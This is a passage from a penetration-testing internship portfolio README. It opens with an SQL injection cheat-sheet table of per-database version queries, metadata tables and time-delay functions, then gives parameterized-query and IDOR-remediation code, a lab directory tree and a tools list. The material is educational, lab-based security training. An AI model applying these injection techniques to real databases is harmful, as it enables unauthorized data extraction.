| **String Concatenation** | `\|\|` *(double pipe)* | `+` *(plus operator)* | `CONCAT(a, b)` | `\|\|` *(double pipe)* |
| **Mandatory FROM Clause** | **Yes** *(Must use `FROM dual`)* | **No** | **No** | **No** |
| **Active Version Extraction** | `SELECT banner FROM v$version` | `SELECT @@version` | `SELECT @@version` or `version()` | `SELECT version()` |
| **System Metadata Tables** | `all_tables`, `all_tab_columns` | `information_schema.tables` | `information_schema.tables` | `information_schema.tables` |
| **Time-Delay Injection** | `dbms_pipe.receive_message()` | `WAITFOR DELAY '0:0:10'` | `SLEEP(10)` | `pg_sleep(10)` |
| **Stacked Query Execution** | Restricted | Supported (`;`) | Supported (in specific drivers) | Supported (`;`) |

---

## 🛡️ Defensive Engineering & Secure Coding Reference

Remediating web application flaws requires addressing root causes rather than deploying cosmetic perimeter blocks. Below are verified implementation patterns across major languages:

### 1. Parameterized Queries (Prepared Statements)

Prepared statements fix the Abstract Syntax Tree (AST) at compilation time. User input is bound strictly as a literal value, completely neutralizing injection attempts regardless of quotes, semicolons, or comments.

#### Java (JDBC `PreparedStatement`)
```java
// SECURE: Parameterized template fixes query grammar before input binding
String query = "SELECT id, name, price FROM products WHERE category = ? AND released = 1";
try (PreparedStatement pstmt = connection.prepareStatement(query)) {
    pstmt.setString(1, userSuppliedCategory);
    try (ResultSet rs = pstmt.executeQuery()) {
        while (rs.next()) {
            // Process record safely
        }
    }
}
```

#### PHP (PDO Parameterization)
```php
// SECURE: Named parameter binding prevents SQL interpretation
$stmt = $pdo->prepare('SELECT id, name, price FROM products WHERE category = :category AND released = 1');
$stmt->execute(['category' => $userInputCategory]);
$products = $stmt->fetchAll(PDO::FETCH_ASSOC);
```

#### Python (`psycopg2` / DB-API)
```python
# SECURE: Database adapter passes parameter tuple separately to SQL engine
cursor.execute(
    "SELECT id, name, price FROM products WHERE category = %s AND released = 1;",
    (user_input_category,)
)
records = cursor.fetchall()
```

#### C# (.NET `SqlCommand`)
```csharp
// SECURE: Strongly typed parameter assignment
string query = "SELECT id, name, price FROM products WHERE category = @category AND released = 1";
using (SqlCommand cmd = new SqlCommand(query, connection)) {
    cmd.Parameters.Add("@category", SqlDbType.VarChar, 50).Value = userInputCategory;
    using (SqlDataReader reader = cmd.ExecuteReader()) {
        // Read data safely
    }
}
```

---

### 2. Defense-in-Depth Engineering Controls

1. **Principle of Least Privilege (PoLP):** Web application database accounts must never run as `sa`, `root`, or `SYSDBA`. Application accounts must be revoked from querying `information_schema` or Oracle's `all_tables`.
2. **Server-Side Allow-Listing for Dynamic SQL:** Column names and sort orders (`ORDER BY`) cannot be parameterized via prepared statements. Always enforce strict allow-lists:
   ```java
   List<String> allowedColumns = Arrays.asList("price", "rating", "date_added");
   String sortColumn = allowedColumns.contains(userInputSort) ? userInputSort : "date_added";
   String query = "SELECT * FROM products ORDER BY " + sortColumn;
   ```
3. **Disabling Verbose Error Messages:** Configure production servers to display generic 500 error pages to eliminate error-based schema disclosures.
4. **Remediating IDOR (Secure Direct Object References - SDOR):**
   - Never rely on client-supplied parameters (`user_id` in Local Storage) to retrieve private objects.
   - Always derive the user context from cryptographically signed, server-side session tokens:
     ```python
     # SECURE: Object reference bound to validated session identity
     @app.route('/api/view_accountinfo')
     @login_required
     def view_accountinfo():
         user_id = session.get('user_id')  # Derived from server session, not client payload
         account = db.query(Account).filter_by(id=user_id).first()
         return jsonify(account.to_dict())
     ```

---

## 📁 Repository Architecture & Directory Hierarchy

```
Kaustubh Bangar/IqraSec-Internship WAPT/
│
├── README.md                                                        <-- Portfolio & Technical Documentation
│
└── Kaustubh_Ashish_Bangar_WAPT_Phase-1/
    │
    ├── 1. Web-Fundamentals/
    │   ├── Room1_Web_Application_Basics/
    │   │   ├── Web Application Basics Report.docx                    <-- Executive DOCX Report
    │   │   ├── Web Application Basics Report.pdf                     <-- Executive PDF Report
    │   │   └── Screenshots/                                         <-- Proof of Completion
    │   │       ├── completion.png
    │   │       ├── important-task1.png
    │   │       ├── important-task2.png
    │   │       └── important-task3.png
    │   │
    │   └── Room2_HTTP_in _Detail/
    │       ├── HTTP in Detail Report.docx                            <-- Protocol-Level DOCX Report
    │       ├── HTTP in Detail Report.pdf                             <-- Protocol-Level PDF Report
    │       └── Screenshots/                                         <-- Proof of Completion
    │           ├── completion.png
    │           ├── important-task1.png ... important-task6.png
    │
    ├── 2. Recon-Enumeration/
    │   ├── Reconnaissance & Enumeration Report.docx                  <-- Consolidated DOCX Report
    │   ├── Reconnaissance & Enumeration Report.pdf                   <-- Consolidated PDF Report
    │   ├── Room1_Passive_Reconnaissance/
    │   │   └── Screenshorts/                                        <-- OSINT, Shodan & DNS Evidence
    │   │       ├── Completion .png, flag.png, Shodan_io.png...
    │   ├── Room2_Active_Reconnaissance/
    │   │   └── Screenshots/                                         <-- Traceroute & Banner Grabbing
    │   │       ├── Completion .png, Important Task1.png...
    │   └── Room3_Content_Discovery/
    │       └── Screenshots/                                         <-- robots.txt, sitemap & Gobuster
    │           ├── completion.png, important-Tasks.png...
    │
    ├── 3. Burp-Suite/
    │   ├── Burp Suite Repeater Report.docx                           <-- Technical DOCX Report
    │   ├── Burp Suite Repeater Report.pdf                            <-- Technical PDF Report
    │   └── Room1_Burp_Suite _Repeater/
    │       └── Screenshots/                                         <-- Interception, Error & SQLi Flag
    │           ├── Challenge.png, Flag 1.png, Flag 2.png, Flag 3.png...
    │
    └── 4. Common-Web-Vulnerabilities/
        ├── Room1_IDOR_Santa’s_Little_IDOR/
        │   ├── IDOR - Santa’s Little IDOR Report.docx               <-- Access Control DOCX Report
        │   ├── IDOR - Santa’s Little IDOR Report.pdf                <-- Access Control PDF Report
        │   └── Screenshot/                                          <-- Local Storage & Escalation Evidence
        │       ├── Complete .png, Complete All Task.png...
        │
        └── SQL-Injection/
            ├── SQL Injection Report.docx                            <-- Advanced 300+ Line DOCX Report
            ├── SQL Injection Report.pdf                             <-- Advanced 300+ Line PDF Report
            └── Screenshots/                                         <-- 35 Verification Screenshots
                ├── LAB 1 to LAB 18 Completed, Time Delay, WAF Solves...
```

---

## 🧰 Security Tools & Frameworks Utilized

| Category | Tools / Utilities | Practical Purpose |
| :--- | :--- | :--- |
| **Traffic Interception & Analysis** | Burp Suite Community v2026.2.3, Burp Proxy, Burp Repeater | Raw HTTP request interception, parameter tampering, header injection, response analysis |
| **Network & Service Probing** | Telnet, Netcat (`nc`), Ping, Traceroute | Active TCP banner grabbing (Apache 2.4.61), multi-hop network path diagnostics |
| **DNS & OSINT Intelligence** | `dig`, `nslookup`, `whois`, RDAP, Shodan.io, crt.sh | DNS TXT token discovery, domain ownership, global server footprinting, certificate transparency |
| **Directory & Content Discovery** | Gobuster, cURL (`curl -v`), Browser DevTools | Subdomain and path fuzzing, HTTP verb tampering, custom response header extraction |
| **Platform Laboratories** | TryHackMe AttackBox, PortSwigger Web Security Academy | Controlled vulnerability exploitation environments (Apprentice to Practitioner) |
| **Reporting & Documentation** | Microsoft Word, Adobe PDF, Markdown | Professional executive reporting, technical documentation, diagramming |

---

## 🏆 Key Takeaways & Professional Competencies

1. **Protocol Rigor Over Blind Scanning:** Automated scanners generate high false-positive rates and miss nuanced access control flaws. In-depth understanding of HTTP headers, status codes, and database parsing mechanics enables targeted, surgical exploitation.
2. **The Primacy of Authorization:** Authentication verifies *identity*, but authorization enforces *permissions*. Access control flaws like IDOR represent critical business logic failures that cannot be patched with perimeter obfuscation (Base64/hashes).
3. **Prepared Statements are Inviolable:** Input blacklists and WAF signatures can almost always be bypassed with alternate character encodings (e.g., XML entities). Only parameterization provides mathematical protection against SQL injection.
4. **Actionable Executive Reporting:** High-quality penetration testing is measured not only by exploits found, but by the clarity, reproducibility, and defensive remediation guidance communicated to development teams.

---

## ⚖️ Legal & Ethical Disclaimer

> [!IMPORTANT]
> The security assessments, proof-of-concept exploits, and vulnerability analyses documented in this repository were executed strictly within **isolated, authorized laboratory environments** provided by **TryHackMe**, **PortSwigger Web Security Academy**, and **IqraSec Academy**.  
> This documentation is maintained exclusively for educational purposes, academic demonstration, and professional portfolio verification. Unauthorized access, scanning, or exploitation against computer systems without prior explicit written authorization from the system owners is illegal under applicable cybercrime legislation (e.g., the Computer Fraud and Abuse Act, UK Computer Misuse Act, and the Indian Information Technology Act, 2000).

---

<div align="center">

**IqraSec Academy — Web Application Penetration Testing (WAPT) Internship**  
*Documented by Kaustubh Ashish Bangar*

⭐ *If you find this repository insightful for WAPT / VAPT learning, consider giving it a star!* ⭐

</div>
